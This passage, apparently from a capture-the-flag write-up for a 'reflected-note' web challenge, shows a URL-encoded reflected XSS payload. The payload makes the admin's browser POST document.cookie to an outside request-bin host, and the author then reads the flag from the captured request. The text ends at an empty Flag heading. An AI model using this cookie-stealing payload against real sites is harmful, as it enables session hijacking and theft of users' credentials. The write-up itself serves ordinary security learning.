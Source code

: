 So we get :

```
http://reflected-note.web-client.challs.ctf.shellmates.club/?note=%3Cscript%3E%0D%0Afetch%28%22https%3A%2F%2Feok1p4dql4pp3y0.m.pipedream.net%22%2C+%7B%0D%0A++++method%3A+%27POST%27%2C+%2F%2F+*GET%2C+POST%2C+PUT%2C+DELETE%2C+etc.%0D%0A++++mode%3A+%27cors%27%2C+%2F%2F+no-cors%2C+*cors%2C+same-origin%0D%0A++++cache%3A+%27no-cache%27%2C+%2F%2F+*default%2C+no-cache%2C+reload%2C+force-cache%2C+only-if-cached%0D%0A++++credentials%3A+%27same-origin%27%2C+%2F%2F+include%2C+*same-origin%2C+omit%0D%0A++++headers%3A+%7B%0D%0A++++++%27Content-Type%27%3A+%27application%2Fjson%27%0D%0A++++++%2F%2F+%27Content-Type%27%3A+%27application%2Fx-www-form-urlencoded%27%2C%0D%0A++++%7D%2C%0D%0A++++redirect%3A+%27follow%27%2C+%2F%2F+manual%2C+*follow%2C+error%0D%0A++++referrerPolicy%3A+%27no-referrer%27%2C+%2F%2F+no-referrer%2C+*no-referrer-when-downgrade%2C+origin%2C+origin-when-cross-origin%2C+same-origin%2C+strict-origin%2C+strict-origin-when-cross-origin%2C+unsafe-url%0D%0A++++body%3A+JSON.stringify%28document.cookie%29+%2F%2F+body+data+type+must+match+%22Content-Type%22+header%0D%0A++%7D%29%3B%0D%0A%3C%2Fscript%3E
```

After that, we report it to the admin, and then check our request bin :

<img src="./4.png"
     alt="Markdown Monster icon"
     style="
     width: 80%;
     diplay: box;"
/>

we will find our flag in the body section.

## Flag
